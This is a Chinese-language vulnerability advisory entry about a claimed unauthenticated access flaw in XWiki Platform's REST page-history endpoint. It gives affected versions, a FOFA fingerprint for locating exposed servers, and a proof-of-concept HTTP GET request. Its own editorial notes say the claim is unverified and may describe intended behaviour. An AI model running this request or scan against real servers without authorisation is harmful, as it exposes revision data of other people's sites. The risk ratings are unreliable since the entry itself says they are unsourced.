

# XWiki Platform 文档history权限检查缺失声称

## 条目说明

- 对象与具体问题：XWiki Platform；文档history权限检查缺失声称
- 版本、配置及部署条件：两个分支范围未正确分隔
- 认证与权限前提：匿名请求；原页面是否限制未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 公开WebHome历史可为设计行为，必须证明无查看权仍返回受限修订
- 在野已知及高危没有来源；截图未视检，缺返回文本和官方修复链接
- 规范HTTP围栏和影响区间

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

XWiki的/ history接口存在未授权访问漏洞，未授权用户可通过该漏洞获取页面的每次修改、修改时间、版本号、修改的作者和版本注释等信息

## 影响版本

xwiki-platform >= 1.8.0, < 15.10.9 >= 16.0.0-rc-1, < 16.3.0-rc-1

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="data-xwiki-reference"

POC/EXP：

```http
GET /xwiki/rest/wikis/xwiki/spaces/Main/pages/WebHome/history HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```





## 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
